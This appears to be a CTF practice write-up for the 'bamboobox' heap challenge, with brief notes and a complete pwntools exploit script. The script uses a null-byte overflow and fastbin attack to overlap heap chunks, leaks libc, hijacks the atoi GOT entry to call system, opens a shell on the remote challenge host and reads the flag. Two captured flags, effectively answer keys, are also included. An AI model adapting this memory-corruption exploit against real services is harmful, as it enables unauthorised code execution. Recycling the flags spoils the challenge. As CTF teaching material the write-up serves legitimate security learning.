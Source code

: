# Week 6 practice
## bamboobox 1 & 2 100
* One byte overflow -> `Heap overlap`.
* Fake fd for `fastbin attack`.
* Modify data pointer of `struct item itemlist[100]` on bss.
* Leak Libc and got hijacking.
* `atoi()` -> `system`.
* `atoi(input_buf)` -> `atio('sh')` -> `system(sh)`.

```python
#!/usr/bin/env python
# -*- coding: ascii -*-
from pwn import *

# FLAG{NOOO~YOUFOUNDME!!} flag 2
# FLAG{DO_Y0U_LIKE_BAMB00??} flag 1

context.arch = 'amd64'

e , l = ELF('./bamboobox') , ELF('./libc.so.6')

host , port = 'csie.ctf.tw' , 10138

y = remote(host,port)
#y = process( './bamboobox' , env = {'LD_PRELOAD':'./libc.so.6'} )
#y = process( './bamboobox' )
#print util.proc.pidof(y)
#raw_input('>')


def add( size , data ):
    y.sendafter( 'ice:' , '2' )
    y.sendafter( 'e:' , str( size ) )
    y.sendafter( 'm:' , data )

def chg( idx , size , data ):
    y.sendafter( 'ice:' , '3' )
    y.sendafter( ':' , str( idx ) )
    y.sendafter( 'e:' , str( size ) )
    y.sendafter( 'm:' , data )

def sho():
    y.sendafter( 'ice:' , '1' )

def dle( idx ):
    y.sendafter( 'ice:' , '4' )
    y.sendafter( ':' , str( idx ) )



add( 0x71 , 'a' * 0x70 )   # 0
add( 0x200 , 'A' * 0x200 ) # 1
add( 0x200 , 'B' * 0x200 ) # 2
add( 0x200 , 'C' * 0x200 ) # 3
add( 0x200 , 'D' * 0x200 ) # 4

dle( 2 )

dle( 1 )
add( 0x208 , 'A' * 0x200 + p64( 0 ) ) # 1 # Null byte

add( 0x100 , '1' * 0x100 ) # 2
add( 0x68 , '2' * 0x60 ) # 5

dle( 2 )
dle( 3 )

add( 0x410 , 'D' ) # 2
dle( 5 )
chg( 2 , 0x400 , 'D' * 0x100 + p64( 0x0 ) + p64( 0x71 ) + p64( 0x6020c0 - 8 )  )

add( 0x68 , 'get' )
add( 0x68 , p64( e.got['__libc_start_main'] ) + 'DDDDDDDD' + p64( e.got['atoi'] ) )

sho()

y.recvuntil( '0 : ' )
l.address += u64( y.recv( 6 ).ljust( 8 , '\x00' ) ) - l.symbols['__libc_start_main']
log.success( 'libc -> %s' % hex( l.address ) )

chg( 1 , 8 , p64( l.symbols['system'] ) )

y.sendline( 'sh' )

sleep(0.7)

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```